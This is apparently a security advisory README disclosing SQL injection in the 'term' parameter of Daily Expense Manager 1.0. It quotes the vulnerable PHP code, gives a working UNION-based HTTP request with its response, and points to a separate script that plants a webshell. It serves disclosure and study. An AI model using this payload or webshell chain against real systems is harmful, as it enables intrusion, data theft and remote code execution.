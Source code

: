 # Daily Expense Manager 1.0 - 'term' SQL Injection
SQL injection in Daily Expense Manager 1.0 allows for injection of SQL queries, resulting in information disclosure and remote code execution.

## Vulnerable Code
File: /Daily-Expense-Manager/readxp.php , Line: 16-23
```
<?php
include("functions.php");

if(isloggedin()==FALSE)
{

}
else
{
  
}
$sid=$_SESSION['id'];


//get search term
$searchTerm = $_GET['term'];
//get matched data from skills table
$query = $conn->query("SELECT * FROM expense WHERE pname like '%$searchTerm%' AND uid='$sid' and isdel='0' group by pname");
while ($row = $query->fetch_assoc()) {
    $data[] = $row['pname'];
}
//return json data
echo json_encode($data);
?>
```
The LoggedIn() function effectively does nothing to prevent unauthenticated users from accessing this file.
The `$SearchTerm` variable is not sanitized and is under control of the attacker.

## Proof-of-concept
The HTTP request below injects a UNION statement to retrieve the version of the underlying database.

HTTP Request
```
GET /Daily-Expense-Manager/readxp.php?term=asd%27%20UNION%20ALL%20SELECT%201,@@version,3,4,5,6--%20- HTTP/1.1
Host: [REDACTED]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

HTTP Response:
```
HTTP/1.1 200 OK
Date: Mon, 22 Aug 2022 16:28:11 GMT
Server: Apache/2.4.53 (Debian)
Set-Cookie: PHPSESSID=h7jdflgm9l3d84lruefl5jie3h; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 25
Connection: close
Content-Type: text/html; charset=UTF-8

["10.5.12-MariaDB-1-log"]
```

## Script
A proof-of-concept script written in python 3.6.x is in this repository. Follow instructions to inject a webshell onto the target.

![Executing the proof-of-concept script](https://github.com/stefanhesselman/Daily-Expense-Manager-1.0-SQL-to-RCE/blob/main/demo.gif?raw=true)


## Links
Vendor Homepage: https://code-projects.org/daily-expense-manager-in-php-with-source-code/

Software Link: https://download-media.code-projects.org/2020/01/DAILY_EXPENSE_MANAGER_IN_PHP_WITH_SOURCE_CODE.zip
